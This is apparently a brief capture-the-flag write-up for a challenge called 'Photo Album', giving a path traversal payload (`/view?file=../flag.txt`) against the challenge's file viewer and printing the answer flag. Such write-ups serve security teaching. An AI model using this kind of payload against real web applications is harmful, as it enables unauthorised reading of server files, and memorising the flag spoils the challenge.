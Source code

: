 # Photo Album #
 
## Overview ##
 
150 points
 
Author: sealldev
 
## Description ##
 
Monkey has made a photo album, but there's something wrong with it...

## Solution ##
Looking utilise path traversal on `/view?file`. eg. `/view?file=../flag.txt`.

## Answer Flag ##
ApeCTF{p4th_tr4v3rs4l_1s_4w3s0m3}

